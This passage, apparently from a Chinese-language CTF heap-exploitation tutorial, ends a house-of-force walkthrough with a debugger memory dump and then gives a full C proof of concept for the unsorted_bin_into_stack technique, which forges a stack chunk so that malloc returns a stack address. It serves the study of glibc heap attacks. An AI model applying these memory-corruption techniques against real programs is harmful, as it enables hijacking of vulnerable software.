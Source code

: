 再次 malloc，将目标地址包含进来即可，现在我们就成功控制了目标内存：

```text
gef➤  x/12gx 0x602010+0xfffffffffffff050
0x601060:	0x4141414141414141	0x4141414141414141
0x601070:	0x4141414141414141	0x0000000000000041  <-- chunk 2
0x601080 <bss_var>:	0x2073692073696854	0x676e697274732061  <-- target
0x601090 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x6010a0 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x6010b0:	0x0000000000000000	0x0000000000000f69  <-- top chunk
```

该技术的缺点是会受到 ASLR 的影响，因为如果攻击者需要修改指定位置的内存，他首先需要知道当前 top chunk 的位置以构造合适的 malloc 大小来转移 top chunk。而 ASLR 将使堆内存地址随机，所以该技术还需同时配合使用信息泄漏以达成攻击。

### unsorted_bin_into_stack

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_buf[4] = {0};

    unsigned long *victim  = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Allocating the victim chunk at %p\n", victim);

    // deal with tcache
    // int *k[10], i;
    // for (i = 0; i < 7; i++) {
    //     k[i] = malloc(0x80);
    // }
    // for (i = 0; i < 7; i++) {
    //     free(k[i]);
    // }

    free(victim);
    fprintf(stderr, "Freeing the chunk, it will be inserted in the unsorted bin\n\n");

    stack_buf[1] = 0x100 + 0x10;
    stack_buf[3] = (unsigned long)stack_buf;        // or any other writable address
    fprintf(stderr, "Create a fake chunk on the stack\n");
    fprintf(stderr, "fake->size: %p\n", (void *)stack_buf[1]);
    fprintf(stderr, "fake->bk: %p\n\n", (void *)stack_buf[3]);

    victim[1] = (unsigned long)stack_buf;
    fprintf(stderr, "Now we overwrite the victim->bk pointer to stack: %p\n\n", stack_buf);

    fprintf(stderr, "Malloc a chunk which size is 0x110 will return the region of our fake chunk: %p\n", &stack_buf[2]);

    unsigned long *fake = malloc(0x100);
    fprintf(stderr, "malloc(0x100): %p\n", fake);
}
```
